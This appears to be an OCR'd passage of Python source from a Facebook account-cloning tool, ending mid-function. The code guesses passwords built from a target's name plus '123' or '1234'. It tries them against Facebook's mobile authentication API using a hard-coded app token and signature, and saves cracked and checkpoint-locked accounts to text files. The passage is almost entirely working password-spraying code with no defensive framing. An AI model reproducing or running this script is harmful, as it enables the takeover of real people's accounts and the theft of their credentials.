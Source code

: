 	print("\033[1;92m-> Total IDs : "+str(len(id)))

	time.sleep(0.5)

	print("\033[1;92m-> Please wait clone account will be appear here")

	print 47*("-")

	print('')

	def main(arg):

		user=arg

		uid,name=user.split("|")

		try:

		    pass1=name+"123"

		    q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass1 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		    d=json.loads(q)

		    if 'www.facebook.com' in d['error_msg']:

		        print("\x1b[1;93m[SAM-CP] "+uid+" | "+pass1)

		        cp=open("cp.txt","a")

		        cp.write(uid+" | "+pass1+"\n")

		        cp.close()

		        cps.append(uid)

		    else:

		    	if "access_token" in d:

		            print("\x1b[1;97m[SAM-OK] "+uid+" | "+pass1+"\x1b[1;0m")

		            ok=open("ok.txt","a")

		            ok.write(uid+" | "+pass1+"\n")

		            ok.close()

		            oks.append(uid)

		        else:

		            pass2=name+"1234"

		            q = requests.get("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email=" + uid + "&locale=vi_vn&password=" + pass2 + "&sdk=ios&generate_session_cookies=1&sig=15df5f3c8c37e0a620e8fa1fd1dd705c", headers=header).text

		            d=json.loads(q)
